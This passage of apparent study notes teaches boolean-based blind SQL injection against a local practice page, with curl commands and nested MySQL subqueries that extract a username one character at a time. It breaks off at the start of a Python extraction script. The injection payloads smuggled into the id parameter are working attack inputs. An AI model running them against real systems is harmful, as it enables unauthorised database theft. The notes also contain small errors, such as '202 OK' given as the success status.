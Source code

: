 -I -> To fecth the headers only.
```shell
# Returns 202 OK
curl -s -I -X GET "http://localhost/searchUsers2.php?id=1"
# Returns 404 Not Found
curl -s -I -X GET "http://localhost/searchUsers2.php?id=5"
```
----
## Boolean-Based Blind SQL Injection
Playing SQLI without seeing any log by using CONDITIONS.
Using a web to practice this SQLI type [extendsclass](https://extendsclass.com/mysql-online.html)
```mysql
-- returns -> 1 (true)
select(select substring(username,1,1) from users where id=1)='a';
-- returns -> 0 (false)
select(select substring(username,1,1) from users where id=1)='b';
```
---
Working with HEX to avoid special characters
```mysql
-- returns -> 1 (true)
select(select ascii(substring(username,1,1)) from users where id=1)=97;
-- returns -> 0 (false)
select(select ascii(substring(username,1,1)) from users where id=1)=98;
```
---
Conditions
-G -> To sent data with GET request by using --data-urlencode
```shell
# Returns 202 OK
curl -s -I -X GET "http://localhost/searchUsers2.php" -G --data-urlencode "id=2"
# Returns 202 OK
curl -s -I -X GET "http://localhost/searchUsers2.php" -G --data-urlencode "id=2 or 1=1"
# Returns 404 Not Found
curl -s -I -X GET "http://localhost/searchUsers2.php" -G --data-urlencode "id=2 or 1=2"
```
----
### Nested Queries
Nested queries to inject boolean queries
```mysql
# Returns 202 OK
curl -s -I -X GET "http://localhost/searchUsers2.php" -G --data-urlencode "id=9 or (select(select ascii(substring(username,1,1)) from users where id=1)=97)"
# Returns 404 Not Found
curl -s -I -X GET "http://localhost/searchUsers2.php" -G --data-urlencode "id=9 or (select(select ascii(substring(username,1,1)) from users where id=1)=98)"
```
----
### Using Python Scripting
Install pwn to use progress bars and more.
```shell
sudo pip install pwn
```
Script to retrieve database data by using boolean injection and ascii numbers to match characters.
```python
#!/usr/bin/python3
import requests
from pwn import *
import signal
import sys
import time

# manage force stop
```